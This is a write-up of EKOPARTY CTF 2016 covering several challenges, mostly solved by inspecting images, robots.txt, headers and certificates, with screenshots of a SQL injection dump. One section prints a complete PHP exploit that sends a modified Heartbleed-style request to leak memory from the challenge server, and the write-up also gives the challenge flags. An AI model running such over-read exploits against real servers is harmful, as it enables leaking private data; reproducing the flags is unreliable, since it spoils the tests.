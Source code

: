 # EKOPARTY CTF 2016 - WRITEUP

Author: Juan Escobar

Date: 28 - 10 - 16

## Misc 50
### Hidden inside EKO
> Find the hidden flag in the EKO pixels!

The flag was found into nicknames at the background image: https://ctf.ekoparty.org/static/img/background.png

![](img/misc50/flag.png)

Flag
**EKO{th4_fl4g}**

## Web 25
### Mr. Robot
> Disallow it!

The flag was found into robots.txt file
```txt
User-agent: *
Disallow: /static/wIMti7Z27b.txt
```

![](img/web25/flag.png)

Flag
**EKO{robot_is_following_us}**

## Web 50
### RFC 7230
> Get just basic information from this server (ctf.ekoparty.org).

The flag was found in the header Server of HTTP GET request to ctf.ekoparty.org

![](img/web50/flag.png)

Flag
**EKO{this_is_my_great_server}**

## Web 100
### Super duper advanced attack
> Can you find the flag?
> http://0491e9f58d3c2196a6e1943adef9a9ab734ff5c9.ctf.site:20000

The challenge was about exploit a SQL injection and find the flag.

![](img/web100/cols.png)
Columns of database

![](img/web100/dump.png)
Dump of data

After cracking the hashes, try them as flag without success and thinking for a while, finally, I found the flag was in the @flag variable. I was the second team in solving this chall :D

![](img/web100/flag.png)

Flag
**EKO{do_not_forget_session_variables}**

## FBI 25
### Welcome to the dark side
> At Silk Road, every precaution is made to ensure your anonymity and security, from > connecting to the site, to making your transactions, to receiving your items.
> https://silkroadzpvwzxxv.onion

The flag was found in the source code of web page as a comment. I use Tor software to connect to the .onion url.

![](img/fbi25/flag.png)

Flag
**EKO{buy_me_some_b0ts}**

## FBI 50
### Metadata
> Help me to find some metadata!
> https://silkroadzpvwzxxv.onion

The flag was found in the certificate of web site, section *Issued by*, *Organizational Unit (OU)*.

![](img/fbi50/flag.png)

Flag
**EKO{is_this_just_real_file_is_this_just_fantasy}**

## REV 25
### JVM
> Bytecodes everywhere, reverse them.
> Attachment
> rev25_3100aa76fca4432f.zip

The flag was found decompiling the EKO.class file into Java code.

![](img/rev25/class.png)

![](img/rev25/flag.png)

Flag
**EKO{893116}**

## PWN 50
### Bleeding
> Let's bleed some bytes!
> bleed_client 4ff0eff1d46c1d74d152aaf36de6f2799020bdbc.ctf.site 50000
> Attachment
> pwn50_af93ddaf35df98ff.zip

The challenge was solved intercepting the traffic with Wireshark and replicating the request with a modification in 4 to 7 bytes to exploit the heartbleed and XOR operation with the key '0xdeadbeefcafebabe' in request content.

Exploit

```php
<?php
error_reporting(E_ALL);
$key = "de ad be ef ca fe ba be";
$akey = explode(" ", $key);
$file = file_get_contents("req.hex");
$ahex = explode(" ", $file);

$out = "";
for ($i=0; $i < count($ahex); $i++) { 
	$out .= bin2hex(chr(hexdec($ahex[$i]) ^ hexdec($akey[$i % 8]))). " ";
}

$vector = explode(" ", $out);
unset($vector[count($vector)-1]);

# 4 - 7
$vector[4] = $argv[1];
$vector[5] = $argv[2];
$vector[6] = $argv[3];
$vector[7] = $argv[4];

$payload = "";
for ($i=0; $i < count($vector); $i++) { 
	$payload .= bin2hex(chr(hexdec($vector[$i]) ^ hexdec($akey[$i % 8])));
}

$service_port = 50000;
$address = "4ff0eff1d46c1d74d152aaf36de6f2799020bdbc.ctf.site";
$socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
if ($socket === false) {
    echo "socket_create() falló: razón: " . socket_strerror(socket_last_error()) . "\n";
}

echo "Intentando conectar a '$address' en el puerto '$service_port'...\n";
echo "Length...\n";
echo $vector[4] . "\n";
echo $vector[5] . "\n";
echo $vector[6] . "\n";
echo $vector[7] . "\n";

$result = socket_connect($socket, $address, $service_port);
if ($result === false) {
    echo "socket_connect() falló.\nRazón: ($result) " . socket_strerror(socket_last_error($socket)) . "\n";
}

echo "Comparando penticiones..\n";
echo "file: " . str_replace(" ", "", $file) . "\n";
echo "payl. " . $payload . "\n";
echo "\n";

$in = hex2bin($payload);
echo "Enviando petición ...";
socket_write($socket, $in, strlen($in));
echo "OK.\n";

echo "Leyendo respuesta:\n\n";
while ($out = socket_read($socket, 2048)) {
    echo $out;
}

echo "\n\nCerrando socket...";
socket_close($socket);
echo "OK.\n\n";
```

![](img/pwn50/flag.png)

Flag
**EKO{1m_bl33d1ng_byt35}**

Ranking 255 of 721.

![](img/scoreboard.png)

